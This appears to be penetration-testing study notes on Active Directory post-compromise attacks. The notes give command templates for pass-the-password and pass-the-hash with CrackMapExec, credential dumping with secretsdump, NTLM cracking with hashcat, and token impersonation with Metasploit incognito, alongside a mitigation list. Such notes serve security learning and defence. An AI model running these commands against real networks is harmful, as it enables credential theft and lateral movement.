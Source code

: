 ## Post Compromise Attacks

### pass the password

[CrackMapExec Github link](https://github.com/byt3bl33d3r/CrackMapExec)

crackmapexec
```
crackmapexec ip -u username -d domain -p password
```

### pass the hash

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

[CrackMapExec Github link](https://github.com/byt3bl33d3r/CrackMapExec)

secretsdump
```
secretsdump.py domain.name/username:password@ip
```

crackmapexec
```
crackmapexec ip -u username -H hash --local
```

* ntlm can be pass
* ntlmv2 cannot be pass

hashcat
```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -O
```

Mitigation:
- limit account re-use
- - avoid re-using local admin password
- - disable guest and administrator accounts
- - limit who is a local administrator
- utilize strong passwords
- - the longer the better >14
- - avoid using common words
- - long sentences
- privilege access management
- - check out/in sensitve accounts when needed
- - automatically rotate passwords on check out and check in
- - limits pass attacks as hash/password is strong an constantly rotated

### token impersonation

Delegation Token: created from logging into a machine or rdp

Impersonation Token: non-interactive such as attaching a network drive or domain logon script

metasploit -> incognito
```
load incognito
list_tokens -u
impersonate_token token_name
```
